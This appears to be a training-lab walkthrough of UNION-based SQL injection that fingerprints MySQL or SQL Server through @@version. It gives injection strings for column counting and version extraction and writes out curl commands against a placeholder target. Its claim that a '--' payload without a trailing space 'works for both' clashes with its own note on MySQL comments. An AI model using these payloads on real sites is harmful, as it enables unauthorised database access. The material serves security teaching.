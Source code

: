 # SQL injection attack, querying the database type and version on MySQL and Microsoft — Practitioner

**Status:** Solved

---

## Goal

Exploit a SQL injection vulnerability to determine the database version. This lab uses either MySQL or Microsoft SQL Server, and you need to display the database version string.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Test for SQL injection**
   - Try basic injection:
```
   /filter?category=Gifts'
```
   - You should get an error or unusual behavior

3. **Determine the number of columns**
   - Use ORDER BY to find column count:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
```
   - Keep increasing until you get an error
   - Or use UNION SELECT with NULLs:
```
   Gifts' UNION SELECT NULL--
   Gifts' UNION SELECT NULL,NULL--
```
   - Let's say it works with 2 columns

4. **Find string-compatible columns**
   - Replace NULL with string to find which columns accept text:
```
   Gifts' UNION SELECT 'abc',NULL--
   Gifts' UNION SELECT NULL,'abc'--
```
   - Find which positions display strings without errors

5. **Determine if it's MySQL or MSSQL**
   - Try MySQL comment syntax first:
```
   Gifts' UNION SELECT NULL,NULL#
```
   - If that works, it's likely MySQL
   - If not, use `--` (works for both)

6. **Extract database version**
   - For MySQL:
```
   Gifts' UNION SELECT @@version,NULL#
```
   - For Microsoft SQL Server:
```
   Gifts' UNION SELECT @@version,NULL--
```
   - Both databases use `@@version` to get version info

7. **Execute the injection**
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+@@version,NULL--"
```
   - Or with MySQL comment:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+@@version,NULL%23"
```

8. **Verify success**
   - The database version will be displayed on the page
   - MySQL shows: "5.7.32-0ubuntu..." or similar
   - MSSQL shows: "Microsoft SQL Server 2019..." or similar
   - Lab automatically solves once version is displayed

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column enumeration:
```
Gifts' ORDER BY 1--
Gifts' ORDER BY 2--
Gifts' ORDER BY 3-- (error = 2 columns)
```
- Final payload (works for both):
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+@@version,NULL--"
```
- MySQL specific:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+@@version,NULL%23"
```

---

## MySQL vs MSSQL differences

**MySQL:**
- Comment: `#` or `-- ` (note the space after dashes)
- Version: `@@version` or `VERSION()`
- String concat: `CONCAT('a','b')`

**Microsoft SQL Server:**
- Comment: `--` (space after is recommended)
- Version: `@@version`
- String concat: `'a'+'b'`

**Both support:**
- `@@version` for version info
- `--` for comments (safer choice)
- `UNION SELECT` syntax

---

## Why this works

The `@@version` is a system variable available in both MySQL and Microsoft SQL Server that returns the database version information. By using UNION SELECT, we can inject this system variable into our query results and have it displayed alongside the product information. The key is matching the number of columns and ensuring at least one column can handle string data.

---

